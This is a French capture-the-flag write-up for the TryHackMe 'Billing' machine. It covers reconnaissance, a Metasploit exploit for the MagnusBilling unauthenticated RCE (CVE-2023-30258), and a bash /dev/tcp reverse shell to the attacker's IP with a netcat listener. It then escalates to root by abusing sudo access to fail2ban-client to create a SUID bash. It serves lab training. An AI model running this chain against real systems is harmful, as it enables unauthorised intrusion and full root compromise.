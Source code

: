 # TryHackMe – Billing

**Objectif :** récupérer les deux flags (user et root) sur la machine **Billing** via une exécution de commande à distance non authentifiée dans MagnusBilling, puis une escalade de privilèges grâce à une mauvaise configuration `sudo`/`fail2ban-client`.

---

## 1. Reconnaissance initiale

Notre cible : 10.10.58.0 

Mon IP : 10.21.208.96

### Scan Nmap complet

```bash
nmap -v -p- -Pn 10.10.58.0
```

**Ports ouverts :**

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | SSH | OpenSSH |
| 80/tcp | HTTP | Apache 2.4.62 |
| 3306/tcp | MySQL | MariaDB |

---

## 2. Analyse du service HTTP

Scan plus précis :

```bash
nmap -p80,3306 -sV -sC -Pn 10.10.58.0
```

> Sur le port 80 : application **MagnusBilling** détectée sous `/mbilling`.

---

## 3. Découverte de chemins avec Gobuster

```bash
gobuster dir -u http://10.10.58.0/mbilling/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 40
```

Répertoires trouvés : `/archive`, `/assets`, `/fpdf`, `/lib`, `/resources`, `/tmp`, etc.

---

## 4. Exploitation RCE avec Metasploit

Module : `exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258`

```bash
msfconsole
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set LHOST 10.21.208.96
set RHOST <TARGET_IP>
set LPORT 4444
set TARGET 1
run
```

> Ouvre une session `cmd/unix`.

---

## 5. Passage à un shell interactif

### Listener Netcat

```bash
nc -lvnp 4242
```

### Reverse‑shell depuis la session Metasploit

```bash
bash -c 'bash -i >& /dev/tcp/10.21.208.96/4242 0>&1'
```

### Stabilisation du shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo
fg
export TERM=xterm
```

---

## 6. Récupération du flag utilisateur

```bash
cat /home/*/user.txt
```

Flag user : `THM{***USERFLAG!!***}`

---

## 7. Escalade de privilèges

### Vérification des droits sudo

```bash
sudo -l
```

> `asterisk` peut exécuter **`/usr/bin/fail2ban-client` en root sans mot de passe**.

### Exploitation de fail2ban

```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```

Script SUID :

```bash
cat > /tmp/script <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
```

Action personnalisée :

```bash
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<'EOF'
[Definition]
actionstart = /tmp/script
EOF
```

Jail custom :

```bash
cat >> /tmp/fail2ban/jail.local <<'EOF'
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
```

Filtre placeholder :

```bash
cat > /tmp/fail2ban/filter.d/my-custom-jail.conf <<'EOF'
[Definition]
EOF
```

Redémarrer fail2ban :

```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

---

## 8. Shell root

```bash
/tmp/bash -p
id
```

---

## 9. Récupération du flag root

```bash
cat /root/root.txt
```

Flag root : `THM{***ROOTFLAG!!***}`

---

## 10. Conclusion

Chaîne d’exploitation : RCE non authentifiée → shell basique → reverse‑shell interactif → escalade via fail2ban mal configuré → SUID root → flags récupérés. Room terminée.

---

**Auteur :** Saad Idrissi
